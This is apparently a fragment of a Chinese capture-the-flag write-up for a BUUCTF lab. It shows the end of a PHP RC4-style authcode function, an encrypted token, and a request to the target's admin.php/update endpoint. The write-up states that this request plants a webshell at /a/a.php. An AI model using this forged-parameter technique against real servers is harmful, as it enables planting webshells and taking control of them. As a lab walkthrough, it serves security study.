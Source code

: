 ```php
        $box[$j] = $tmp;
    }
    for($a = $j = $i = 0; $i < $string_length; $i++) {
        $a = ($a + 1) % 256;
        $j = ($j + $box[$a]) % 256;
        $tmp = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    } 
    if($type == 1) {
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            $result = substr($result, 26);
            $json = json_decode($result,1);
            if(!is_numeric($result) && $json){
                return $json;
            }else{
                return $result;
            }
        }
        return '';
    }
    return str_replace('+', '-', $keyc.str_replace('=', '', base64_encode($result)));
}
```

e665fRSaXog04FUh9f/zKtkTdQR3P-0ZgyN1t3Es2BsjXaxMomNHyOmJ/6io/oQ0QlgMGYxv/w

访问[http://80e6494d-b0e7-42a7-ba37-5c84a92e3670.node4.buuoj.cn:81/admin.php/update?url=e665fRSaXog04FUh9f/zKtkTdQR3P-0ZgyN1t3Es2BsjXaxMomNHyOmJ/6io/oQ0QlgMGYxv/w](http://80e6494d-b0e7-42a7-ba37-5c84a92e3670.node4.buuoj.cn:81/admin.php/update?url=e665fRSaXog04FUh9f/zKtkTdQR3P-0ZgyN1t3Es2BsjXaxMomNHyOmJ/6io/oQ0QlgMGYxv/w)

在/a/a.php就有马马了